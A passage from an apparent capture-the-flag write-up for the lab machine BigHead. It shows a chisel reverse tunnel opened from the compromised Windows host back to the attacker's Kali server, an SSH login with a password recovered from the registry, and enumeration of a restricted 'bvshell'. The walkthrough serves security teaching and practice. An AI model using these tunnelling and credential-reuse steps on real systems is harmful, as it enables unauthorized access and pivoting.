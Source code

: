 

Now I'll run my server locally, allowing for reverse tunnels:



    root@kali# /opt/chisel/chisel server -p 8888 --reverse
    2019/03/29 13:43:05 server: Reverse tunnelling enabled
    2019/03/29 13:43:05 server: Fingerprint 1b:df:d4:d0:c7:29:0d:3f:77:ef:7a:62:ec:47:ff:9b
    2019/03/29 13:43:05 server: Listening on 0.0.0.0:8888...



Now I'll connect back from BigHead:



    C:\Windows\System32\spool\drivers\color>c.exe client 10.10.14.14:8888 R:2020:127.0.0.1:2020
    c.exe client 10.10.14.14:8888 R:2020:127.0.0.1:2020
    2019/03/29 17:34:32 client: Connecting to ws://10.10.14.14:8888
    2019/03/29 17:34:42 client: Fingerprint 1b:df:d4:d0:c7:29:0d:3f:77:ef:7a:62:ec:47:ff:9b
    2019/03/29 17:34:48 client: Connected (Latency 983.2545ms)



The server reports the connection as well:



    2019/03/29 13:44:09 server: session#1: Client version (1.3.1) differs from server version (0.0.0-src)
    2019/03/29 13:44:09 server: proxy#1:R:0.0.0.0:2020=>127.0.0.1:2020: Listening



Now I can talk to local port 2020 and it will reach 2020 on bighead.

### SSH

With either tunnel set up, I can now ssh in, using the string from the
registry, H73BpUY2Uq9U-Yugyt5FYUbY0-U87t87, as a password:



    root@kali# ssh -p 2020 nginx@localhost
    nginx@localhost's password:
    bvshell:/$



## BvShell Escape

### Enumeration

On sshing in, I'm dropped into a weird shell. Based on the files, my
best guess is that I'm in `c:\xampp`, a directory I was unable to get
into before as nelson. I am unable to get back to the root of C:.



    bvshell:/$ ls
    anonymous             apache                apache_start.bat      apache_stop.bat       apps                  catalina_service.bat  catalina_start.bat    catalina_stop.bat     cgi-bin               contrib
    ctlscript.bat         FileZillaFTP          filezilla_setup.bat   filezilla_start.bat   filezilla_stop.bat    htdocs                img                   install               licenses              locale
    mailoutput            mailtodisk            MercuryMail           mercury_start.bat     mercury_stop.bat      mysql                 mysql_start.bat       mysql_stop.bat        nginx.exe             passwords.txt
    perl                  php                   phpMyAdmin            properties.ini        readme_de.txt         readme_en.txt         RELEASENOTES          sendmail              service.exe           setup_xampp.bat       
    src                   test_php.bat          tmp                   tomcat                uninstall.dat         uninstall.exe         user.txt              webalizer             webdav                xampp-control.exe     